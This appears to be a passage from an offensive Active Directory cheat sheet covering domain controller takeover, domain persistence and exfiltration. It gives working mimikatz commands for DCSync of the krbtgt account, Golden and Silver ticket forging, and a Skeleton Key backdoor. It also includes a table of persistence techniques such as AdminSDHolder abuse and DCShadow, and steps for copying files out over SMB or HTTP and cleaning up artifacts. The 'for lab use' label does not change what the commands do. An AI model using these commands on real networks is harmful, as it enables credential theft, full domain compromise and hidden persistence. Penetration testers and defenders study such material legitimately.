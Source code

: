 ***

### VI. 🧱 Domain Controller Domination

#### 🔹 DCSync

```powershell
mimikatz "lsadump::dcsync /domain:corp.local /user:krbtgt"
```

#### 🔹 Golden Ticket (KRBTGT)

```powershell
mimikatz "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-XXXXX /krbtgt:HASH /id:500"
```

#### 🔹 Silver Ticket (Service)

```powershell
mimikatz "kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXX /target:HOST /service:cifs /rc4:HASH /user:Administrator"
```

#### 🔹 Skeleton Key (Permanent backdoor)

```powershell
mimikatz "misc::skeleton"
```

***

### VII. 🧩 Persistence Techniques (Domain)

| Method                               | Command / Concept           |
| ------------------------------------ | --------------------------- |
| **Golden/Silver Ticket**             | Long-term Kerberos control. |
| **AdminSDHolder abuse**              | Permanent group membership. |
| **SID History Injection**            | Impersonate another SID.    |
| **GPO Scheduled Task / Script**      | Auto-execution.             |
| **WMI permanent event subscription** | Hidden persistence.         |
| **DCShadow**                         | Replicate fake entries.     |

***

### VIII. 🛰️ Exfiltration & Impact (for lab use)

*   Enumerate shares:

    ```bash
    net view \\<host>
    dir \\<host>\C$
    ```
* Copy sensitive files (proof, backups, scripts).
* Exfil via SMB/HTTP (within legal sandbox).
* Cleanup artifacts after evidence collection.
